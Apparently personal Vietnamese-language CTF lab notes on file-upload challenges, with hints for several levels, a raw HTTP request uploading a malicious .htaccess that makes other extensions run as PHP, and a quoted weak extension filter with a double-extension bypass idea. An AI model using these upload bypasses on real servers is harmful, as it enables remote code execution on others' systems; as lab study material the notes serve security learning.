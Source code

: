 # Write-ups 
## File upload 1
#hint level1: Ghi file PHP vào DocumentRoot

## File upload 2
#hint Bypass đoạn check trong code

## File upload 3
#hint  phát hiện các đuôi file khác của mod-php -> php/phar/phphtml

## File upload 4
![](Pasted%20image%2020230307211435.png)
http://fileupload.cyberjutsu-lab.tech:12004/

#pieceknowledege File .htaccess được dùng để tạo ra các config cục bộ của các folder ngang hàng nó.
- Tạo ra file .htaccess để thao thúng mod-php khiến nó thực thi đuôi .txt như là code php
```d
POST / HTTP/1.1
Host: fileupload.cyberjutsu-lab.tech:12004
Content-Length: 1317
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://fileupload.cyberjutsu-lab.tech:12004
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5QhXfOkpAAZJSAvo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://fileupload.cyberjutsu-lab.tech:12004/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=80afe3995307b51f9b0e599b9ec0d0cf
Connection: close

------WebKitFormBoundary5QhXfOkpAAZJSAvo
Content-Disposition: form-data; name="file"; filename=".htaccess"
Content-Type: text/plain

<FileMatch ".+\.ph(ar|p|tml)$">
	SetHandler application/x-httpd-php
</FileMatch>

------WebKitFormBoundary5QhXfOkpAAZJSAvo--

```
- Bước 2: Upload file.txt, lúc này theo kế hoạch thì file này sẽ được thực thi như code php


#hackTrick Burpsuit mở tab Render sẽ hạn chế việc dùng browser
#hackTrick Hạn chế mới khai thác đã dùng các lệnh system
# BrainStorm Board
- Hack = Solve Puzzle = Chơi ghép hình
=> Phải có đầy đủ các mảnh ghép và biết cách phải ghép như thế nào

#### Ta có: 
	1. Untrusted Data(file) bị user upload vào /upload/ trong DocumentRoot
	2. Ta hoàn toàn có thể truy cập vào http://192.168.133.155:12002/upload/{session_id}/
	3. Biết được rằng nguyên tắc của htttd là nhìn vào đuôi file cuối cùng của `{filename}.php` để xác định eanwgf đây có phải là tập tin PHP và đưa cho mod-php xử lý không?
	4. Nếu tìm được cách upload file có đuôi `.php` thì httpd thì httpd sẽ thực thi được code ngay

#### Vì sao không làm giống level 1
1. Dev đã sàng lọc (filter) không cho phép upload đuôi file `.php` bằng cách nào? Bằng cách `explode` để nổ dấu `.` trong filename rồi lấy phần tử có index[1] 
	```php
	$filename = $_FILES["file"]["name"];
            $extension = explode(".", $filename)[1];
            if ($extension === "php") {
                die("Hack detected");
	
```

#### Hướng giải quyết
1. Sẽ ra sao nếu đuôi .php nằm ở phần tử có index khác 1 sau khi explode
